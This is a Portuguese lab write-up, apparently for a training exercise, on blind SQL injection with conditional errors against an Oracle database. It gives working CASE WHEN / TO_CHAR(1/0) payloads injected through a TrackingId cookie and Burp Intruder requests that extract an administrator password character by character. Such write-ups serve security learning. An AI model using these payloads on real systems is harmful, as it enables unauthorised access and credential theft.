


# Lab: Blind SQL injection with conditional errors

## Enunciado (traduzido)

Este lab contém uma vulnerabilidade de SQL injection cega (Blind SQLi). A aplicação utiliza um cookie de rastreamento (`TrackingId`) para análise de métricas e executa uma consulta SQL contendo o valor do cookie enviado.

Os resultados da consulta SQL não são retornados na página e a aplicação não responde de forma diferente com base no retorno ou não de linhas pela query. No entanto, se a consulta SQL disparar um erro no banco de dados, a aplicação exibirá uma mensagem de erro customizada (ou código de erro de servidor).

O banco de dados contém uma tabela chamada `users`, com colunas chamadas `username` e `password`. Você precisa explorar a vulnerabilidade de Blind SQL injection para descobrir a senha do usuário `administrator`.

Para resolver o lab, faça login como o usuário `administrator`.

*(Dica: Este lab utiliza um banco de dados Oracle).*

## O que fiz

Começamos buscando identificar o ponto de injeção e como a aplicação reage às nossas entradas. Ao manipular o cookie `TrackingId`, tentamos usar testes tradicionais de ordenação:

```sql
' ORDER BY 1--
' ORDER BY 99999--
```

Ambas as requisições responderam com sucesso (`200 OK`) e o conteúdo da página permaneceu idêntico. Não houve nenhuma alteração visual, diferença no tempo de resposta ou mensagem de erro que indicasse se uma condição é verdadeira ou falsa.

Tentamos então injetar uma validação booleana direta para testar a senha do administrador:

```sql
' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a
```

Essa requisição retornou um erro de sintaxe interno (`500`). Isso acontece porque a função `SUBSTRING()` é padrão de bancos como PostgreSQL e MySQL, mas não existe no **Oracle**. Ao substituir a função por **`SUBSTR()`**, o erro de sintaxe desapareceu, confirmando que o banco de dados é da Oracle.

Mesmo com a sintaxe corrigida, a aplicação continuou retornando a página padrão sem nenhuma pista visual se o caractere estava certo ou errado:

```sql
' || (SELECT '' FROM dual)--
' || (SELECT password FROM users WHERE username = 'administrator')--
```

Quando o backend processa essa consulta, ele concatena a string do cookie com a senha. Como esse valor concatenado não existe na tabela de rastreamento, o banco simplesmente não retorna nenhuma linha de tracking. Para a aplicação, "não encontrar registros" não é um erro, apenas uma busca vazia válida — por isso a página carrega normal com status `200 OK`.

### Construindo um canal de resposta através de erros intencionais

Já que a aplicação não nos dá pistas visuais em condições normais, precisamos encontrar uma forma de forçar o banco a nos responder. A única pista que a aplicação nos dá é que **erros reais de execução no banco geram uma resposta `HTTP 500`**.

Podemos tirar proveito disso criando uma condição: se o caractere que estamos testando estiver **certo**, forçamos o banco a executar uma operação matematicamente impossível (uma divisão por zero `1/0`). Se o caractere estiver **errado**, o banco executa uma instrução válida sem erros.

Montamos essa lógica usando a estrutura condicional `CASE WHEN`. Existem duas formas válidas de estruturar esse payload:

#### Abordagem 1: Via Concatenação (`||`)

```sql
' || (SELECT CASE WHEN SUBSTR(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')--
```

> **Por que usar `TO_CHAR()`?**  
> No Oracle, todos os ramos de retorno de um `CASE` (`THEN` e `ELSE`) precisam ser do mesmo tipo de dado. Como o `ELSE` retorna uma string (`''`), convertemos o `1/0` com `TO_CHAR()` para evitar que o banco recuse a query por incompatibilidade de tipos antes mesmo de avaliar a condição.

#### Abordagem 2: Via Operador Lógico (`AND`)

```sql
' AND (SELECT CASE WHEN SUBSTR(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'--
```

> **Detalhe da estrutura com `AND`:**  
> O valor no final (`= '1'`) serve apenas para fechar a comparação lógica do `AND` e manter a sintaxe válida para o SQL. Não importa se a comparação final resulta em verdadeiro ou falso, porque o nosso canal de comunicação é exclusivamente o **erro em tempo de execução** (`1/0`). Se a condição do `WHEN` for verdadeira, o banco quebra no `1/0` antes mesmo de avaliar o restante.

Em ambas as abordagens, a regra do oráculo fica definida:
* **Caractere Correto:** O `CASE` entra no `THEN`, tenta fazer `1/0`, quebra a execução do banco e a aplicação retorna **`HTTP 500`**.
* **Caractere Incorreto:** O `CASE` entra no `ELSE`, retorna um valor neutro válido e a aplicação responde com **`HTTP 200`**.

### Extraindo a senha via Burp Intruder

Com o oráculo de erro configurado, enviamos a requisição para o **Burp Intruder** para testar as possibilidades de caracteres (`a-z`, `0-9`) no primeiro índice da senha:

```http
Cookie: TrackingId=xyz' || (SELECT CASE WHEN SUBSTR(password, 1, 1) = '§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') || '; session=...
```

*(Ou usando a versão com `AND`)*:
```http
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN SUBSTR(password, 1, 1) = '§a§' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1; session=...
```

Ao rodar o ataque e ordenar os resultados pelo código de status, apenas a letra correta disparou o erro `500`:



Avançamos o índice da função `SUBSTR` para a segunda posição:

```http
Cookie: TrackingId=xyz' || (SELECT CASE WHEN SUBSTR(password, 2, 1) = '§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') || '; session=...
```



Repetimos a iteração posição por posição até mapear todos os caracteres da senha: `jssksrx6e9r4q543wnyz`.

### Validação final e Login

Para confirmar que a cadeia inteira está correta antes de autenticar, testamos a string completa usando qualquer uma das duas abordagens:

* **Teste com Concatenação:**
  ```sql
  ' || (SELECT CASE WHEN password = 'jssksrx6e9r4q543wnyz' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')--
  ```
* **Teste com `AND`:**
  ```sql
  ' AND (SELECT CASE WHEN password = 'jssksrx6e9r4q543wnyz' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'--
  ```

A requisição disparou o status `500`, confirmando com exatidão a integridade da senha.

Acessamos a página de login (`/login`), autenticamos com o usuário `administrator` e a senha descoberta, finalizando o lab.

---

[⬅ Voltar](../../../README.md)